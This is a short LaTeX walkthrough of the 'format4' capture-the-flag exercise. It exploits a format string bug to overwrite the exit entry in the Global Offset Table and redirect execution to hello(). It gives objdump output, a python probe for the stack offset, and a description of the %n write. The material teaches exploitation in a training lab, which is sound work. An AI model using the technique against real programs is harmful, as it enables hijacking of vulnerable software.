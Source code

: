
\begin{center}\begin{LARGE}Format 4\end{LARGE}\end{center}
 
\subsection*{Problem}

We look at our source code and see that the end goal is to call the
\lstinline|hello()| function. We see that there is a exit call in \lstinline|vuln|
which we will try to exploit. There is a concept called Global Offset Table (GOT)
which we will attempt.

\begin{lstlisting}[language=bash]
objdump -TR format4 | grep exit
>>>00000000      DF *UND*  00000000  GLIBC_2.0   _exit
>>>00000000      DF *UND*  00000000  GLIBC_2.0   exit
>>>08049718 R_386_JUMP_SLOT   _exit
>>>08049724 R_386_JUMP_SLOT   exit

objdump -t format4 | grep hello
>>>080484b4 g     F .text  0000001e              hello
\end{lstlisting}

Calling objdump, we locate the address of \lstinline|exit| call to be at 
\lstinline|08049724| and the target function \lstinline|hello| to be at
\lstinline|080484b4|.

\subsection*{Idea and Attack process}

We follow the same attack idea as before. We first need to locate the input string
that resides on the stack. Which we will see is 3 offset.

\begin{lstlisting}[language=bash]
python -c "print 'AAAA' + '%x.'*10" | ./format4
AAAA200.b7fd8420.bffffb14.41414141.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.
\end{lstlisting}

Now that we have the offset, we will follow how we modified the address location
in format3. The idea is to use the same \lstinline|[Value, Address]| pattern
with the needed value offset to inject into the address location. We use the same
python code that we used to compute the needed offset. We then place the offset
into the end os the format string followed by the "\%n" which will write the
value to memory.

